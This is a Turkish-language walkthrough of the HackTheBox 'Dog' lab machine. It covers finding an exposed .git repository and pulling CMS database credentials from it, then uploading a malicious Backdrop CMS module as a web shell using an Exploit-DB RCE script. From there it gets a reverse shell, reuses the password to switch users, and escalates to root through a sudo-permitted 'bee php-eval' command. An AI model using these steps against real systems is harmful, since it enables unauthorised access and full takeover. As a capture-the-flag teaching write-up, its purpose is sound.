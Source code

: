 ```yaml
---
title: 'HackTheBox | Dog WriteUp'
author: appdone
categories: [HackTheBox Machines]
tags: [git, remote code execution, sudo, linux]
render_with_liquid: false
media_subpath: /images/hackthebox_dog/
image:
  path: logo.webp
---
```


## Özet

Dog, Backdrop CMS adında bir içerik yönetim sistemi kullanan kolay seviye linux bir makinedir. Nmap taraması sonucunda .git/ dizinini keşfedecek ve repoyu indireceğiz. Bu repo üzerinden içerik yönetim sistemindeki kullanıcılardan birinin parolasını ve kullanıcı adını öğreneceğiz. Daha sonra ise içerik yönetim sistemi üzerinden sisteme shell dosyamızı yükleyecek ve bir reverse shell bağlantısı alacağız. Sistemdeki kullanıcılardan birinin aynı parolayı kullanması nedeniyle o kullanıcıya geçiş yapacağız. Daha sonra ise root haklarıyla bir dosyayı çalıştırabileceğimizi fark edecek ve o dosya üzerinden yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sVC -T4 10.10.11.58
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-title: Home | Dog
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 numaralı portun incelenmesi

![](1.webp){: width="1200" height="600" }

Nmap taramasının sonucunda, 80 numaralı HTTP servisinin üzerinde bir `Git` reposu olduğunu ve kullanılan web uygulamasının `Backdrop CMS` olduğunu öğrendik.

#### Git reposunun incelenmesi

`Git` reposunu `git-dumper` aracının yardımıyla indirelim.

```console
$ python3 git-dumper.py http://10.10.11.58/.git/ dog
...
[-] Fetching http://10.10.11.58/.git/objects/ff/d522e1da8660cb25dce831f19efa284753b691 [200]
[-] Fetching http://10.10.11.58/.git/objects/ff/c8b7a2f5179db2788971de0e8a265032d6ddab [200]
[-] Fetching http://10.10.11.58/.git/objects/ff/f99b60388f8dabaa3ccb41a86ac100b29a75fa [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 2873 paths from the index
```

Dosyaları incelerken settings.php dosyasının içerisinde mysql bilgilerini buluyoruz. Ancak mysql servisine dışarıdan bağlanamayacağımız için elde ettiğimiz parolayı başka bir yerde kullanmamız gerekebilir.

```php
$database = 'mysql://root:[GİZLi]@127.0.0.1/backdrop';                                                                                                                            
$database_prefix = '';
```

Web uygulamasında `root` isminde bir kullanıcı bulunmadığından giriş yapamadım. Web uygulamasında bir kaç gönderi paylaşıldığını görmüştüm, dolayısıyla gönderileri paylaşan kullanıcıların isimlerini de denedim ama nafile. Hakkında sayfasındaki `support@doh.htb` mailinden yola çıkarak `Git` reposunda kullanıcı isimleri olup olmadığını kontrol ettim ve bir kullanıcı adı buldum.

```console
$grep -r "@dog.htb"
...
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "[GİZLi]@dog.htb"
```

## Sömürü aşaması

### Modüller üzerinden php shell yüklenmesi

Elde ettiğimiz kullanıcı bilgileri ile sisteme giriş yapalım. Daha sonra `reverse shell` kodlarımızı yükleyebilmek için sayfaları kontrol edelim. Temaların bulunduğu kısımda sadece içerikleri düzenleyebileceğimiz bir sayfa var. Modüller sayfasında ise keyfimize göre modül ekleyemiyoruz. Bu hazır içerik yönetim sistemine nasıl php shell yükleyebileceğimi öğrenmek için internette arama yaptım ve [bu](https://www.exploit-db.com/raw/52021) sayfa ile karşılaştım. Programı çalıştırdıktan sonra bize bir `.zip` dosyası veriyor ve verdiği dizin üzerinden siteye yüklememizi istiyor.

```console
$ python3 52021 http://10.10.11.58                                                                                                                                                        
Backdrop CMS 1.27.1 - Remote Command Execution Exploit                                                                                                                                        
Evil module generating...                                                                                                                                                                     
Evil module generated! shell.zip                                                                                                                                                              
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.                                                                                              
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

Oluşturduğu `.zip` dosyasını `.tar.gz` formatına çevirdikten sonra bahsettiği http://10.10.11.58/?p=admin/modules/install adresine gidiyor ve `manuel install` linkini seçiyoruz. Sonrada sıkıştırdığımız dosyayı yüklüyoruz.

![](2.webp){: width="900" height="500" }

Dosya yüklendikten sonra programda belirtilen adrese gidiyor ve buradaki web shell üzerinden ncat ile bir bağlantı elde ediyoruz.

![](3.webp){: width="900" height="500" }

## Yetki yükseltme

### johncusack

Sisteme girdikten sonra bayrağı alabilmek için /home dizine yöneldim. Burada iki kullanıcı dizini bulunuyor. `jobert` dizininin içerisinde herhangi bir bilgi yok. `johncusack` kullanıcısının dizinini ise görüntüleyemiyoruz. Elimizdeki tek parolayı denediğimizde ise başarıyla kullanıcıya geçiş yapabiliyoruz.

```console
www-data@dog:/home$ su johncusack
Password: 
johncusack@dog:/home$
```

### root

Sudo yetkilerimizi kontrol ettiğimizde `bee` isimli bir dosyayı root kullanıcısı adına çalıştırabileceğimizi görüyoruz.

```console
johncusack@dog:~$ ls
user.txt
johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

Bu dosyayı çalıştırdıktan sonra kullanılabilir parametreler ile karşılaşıyoruz. Görünüşe göre `ev` veya `php-eval` parametresini kullanarak kod çalıştırabiliyoruz.

```console
johncusack@dog:~$ sudo /usr/local/bin/bee
...
eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
...
```

Bu dosya php ile yazılmış, dolayısıyla php dilinde komut çalıştırabileceğimiz bir kod girmemiz gerekiyor, ancak nedenini anlamadığım bir şekilde aşağıdaki hata ile karşılaşıyorum.

```console
johncusack@dog:~$ sudo /usr/local/bin/bee ev "system('/bin/bash');"

 ✘  The required bootstrap level for 'eval' is not ready.
```

Dosyayı biraz inceledikten sorna Backdrop CMS'i yönetmek için kullanılan bir dosya olduğunu fark ettim. Diğer komutlarıda çalıştırdıktan sonra `Backdrop` içerik dosyasının adresini bulamadığını fark ettim.

```console
johncusack@dog:~$ sudo /usr/local/bin/bee sqlc
PHP Fatal error:  Uncaught Error: Class 'Database' not found in /backdrop_tool/bee/commands/db.bee.inc:279
Stack trace:
#0 /backdrop_tool/bee/includes/command.inc(99): sql_bee_callback()
#1 /backdrop_tool/bee/bee.php(30): bee_process_command()
#2 {main}
  thrown in /backdrop_tool/bee/commands/db.bee.inc on line 279
```

Komutları tekrar gözden geçirdikten sonra `--root` parametresi ile CMS'in adresini gösterebileceğimi gördüm. Daha sonra ise komutu çalıştırdım ve root kullanıcısının haklarına sahip oldum.

```console
johncusack@dog:~$ sudo /usr/local/bin/bee ev "system('/bin/bash');" --root=/var/www/html/
root@dog:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```
